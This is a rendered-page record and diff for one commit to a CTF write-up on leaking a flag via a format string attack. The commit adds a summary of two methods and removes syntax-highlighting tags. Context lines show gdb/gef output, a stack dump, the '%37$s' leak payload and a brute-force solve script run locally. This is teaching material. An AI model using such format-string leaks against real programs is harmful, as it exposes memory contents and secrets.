

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pwn/format-string/01-leak-all-the-stack.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
add summary and remove syntax hilighting

````diff
--- a/docs/pwn/format-string/01-leak-all-the-stack.md
+++ b/docs/pwn/format-string/01-leak-all-the-stack.md
@@ -7,7 +7,12 @@ description: Leak all the stack using a format string attack.
 
 ## Summary
 
-Leak all the stack using a format string attack.
+Two ways :
+
+1. Find the exact offset of the data we want to leak.
+2. Bruteforce the stack until we get the right offset.
+
+Both methods work very well, only the first is more instructive.
 
 ## Challenge
 
@@ -70,7 +75,7 @@ The content of the file is located inside the heap, but there is a pointer to th
 
 We can find this address in the stack by setting a breakpoint on the call of the vulnerable `printf` function.
 
-```asm
+```
 gef➤  disass printMessage3
 Dump of assembler code for function printMessage3:
    0x000006ed <+0>:     push   ebp
@@ -99,7 +104,7 @@ gef➤  b *(printMessage3+42)
 
 Let's run the program and find where the flag is located using the command `grep`.
 
-```asm
+```
 gef➤  grep "FLAG{gg}"
 [+] Searching 'FLAG{gg}' in memory
 [+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
@@ -109,7 +114,7 @@ gef➤  grep "FLAG{gg}"
 
 As you can see, the content of `flag.txt` is stored on the heap, but lets try to find `0x56558a40` or `0x56558c10` in the stack.
 
-```asm
+```
 gef➤  x/50xw $sp
 0xffffd1c0:     0x565585b0      0x0000000a      0x00000004      0x565556f9
 0xffffd1d0:     0x00000001      0x56556fb4      0xffffd1f8      0x56555755
@@ -131,7 +136,7 @@ gef➤  x/s 0x56558a40
 As you can see, there is our address inside `> <`.
 `0x56558a40` is a the 37th place in the stack, so we can retrieve it using `%37$s`.
 
-```bash
+```
 $ ./vuln
 input whatever string you want; then it will be printed back:
 
@@ -173,7 +178,7 @@ while b"FLAG{" not in data:
 
 Execution :
 
-```bash
+```
 $ echo 'FLAG{gg}' > flag.txt
 $ python3 solve.py
 [*] Trying n°0 ...
````
